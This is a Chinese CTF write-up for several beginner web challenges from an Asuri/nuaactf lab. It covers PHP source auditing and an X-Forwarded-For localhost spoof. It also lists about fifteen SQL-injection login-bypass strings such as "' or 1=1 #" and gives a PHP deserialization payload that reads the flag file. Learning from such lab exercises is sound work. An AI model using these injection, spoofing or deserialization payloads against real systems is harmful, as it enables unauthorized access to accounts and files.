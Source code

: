 ```yaml
---
title: Asuri_ctf WEB Write-up
date: 2020-10-12 16:58:25
updated: 
comments: false
tags: 
  - SQL注入
  - 反序列化
categories: 
  - Write-Up
permalink: 
---
```


by:gyy
<h2>[nuaactf2019]web签到</h2>
<h3>F12</h3>
题目地址：<a class="url" href="http://106.15.177.94:10001/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10001/</a>

f12直接看源码
<h3>最终</h3>
问题解决：nuaactf{we1cOme_to_NuaAcTF}

<hr />
<h2>神奇的php</h2>
<h3>代码审计</h3>
题目地址：<a class="url" href="http://106.15.177.94:10017/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10017/</a>

打开直接给源码
<pre><code class="language-php" lang="php"><?php
require('flag.php');//寮曞叆flag鍜宎bc鍙橀噺
foreach($_GET as $key => $value){
    $key=$value;
}
if($a==$abc)
{
    echo $flag;
}
show_source(__FILE__);
?>
</code></pre>
get直接收个a参数，a=abc就出flag，非常简单
<h3>最终</h3>
payload：./?a=abc

问题解决：Asuri{php_is_amazing}

<hr />
<h2>GET</h2>
<h3>怀疑asuri水题</h3>
题目地址：<a class="url" href="http://106.15.177.94:10019" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10019</a>

打开得源码
<pre><code class="language-php" lang="php">
<?php
include_once('flag.php');
//flag.php涓�$flag鍙橀噺
if (isset($_GET['ans'])) {
    if ($_GET['ans']==='hello_world') {
        echo $flag;
        echo '<br>';
    }
}
show_source(__FILE__);
?>

</code></pre>
不说了
<h3>最终</h3>
payload：./ans=hello_world

问题解决：Asuri{get_is_simple}

<hr />
<h2>管理员</h2>
<h3>sql注入</h3>
题目地址：<a class="url" href="http://106.15.177.94:10012/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10012/</a>

打开提示登录管理员

尝试登录：<code>1' or 1=1 #</code>

直接登录成功了...

后来尝试，还有多种payload
<h3>最终</h3>
payload：
<pre><code>' or 0=0 #
' or 1=1 or ''='
x' or 1=1 or 'x'='y
a' or 'a' = 'a
anything' OR 'x'='x
'%20or%20''='
'%20or%20'x'='x
' or 0=0 #
' or 1 --'
' or 1=1 or ''='
hi' or 'a'='a
' or username like '%
' or 1=1 or ''='
' or ''='
x' or 1=1 or 'x'='y
</code></pre>
大同小异，都记录下来，日后学习

问题解决：Asuri{Web_1s_easy}

<hr />
<h2>管理员2</h2>
<h3>同上</h3>
一样，payload登录提示要从本地登录
加个<code>X-Forwarded-For: 127.0.0.1</code>即可
<h3>最终</h3>
问题解决：Asuri{1m_Adm1n}

<hr />
<h2>php序列化</h2>
<h3>序列化</h3>
<h4>告诉我靶场题目有问题???我淦</h4>
题目地址：<del><a class="url" href="http://106.15.177.94:10014" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10014</a></del>
新地址：<a class="url" href="http://desperadoccy.club:39016" target="_blank" rel="noopener noreferrer">http://desperadoccy.club:39016</a>

有时间再写
<h3>最终</h3>
payload：
<code>http://desperadoccy.club:39016/?exp=O:10:%22FileReader%22:4:{s:8:%22Filename%22;S:4:%22\66lag%22;s:5:%22start%22;i:0;s:10:%22max_length%22;i:5;}</code>
&&
<code>http://desperadoccy.club:39016/?exp=O:10:%22FileReader%22:4:{s:8:%22Filename%22;S:4:%22\66lag%22;s:5:%22start%22;i:6;s:10:%22max_length%22;i:13;}</code>

问题解决：Asuri{php_serial1ze}

<hr />
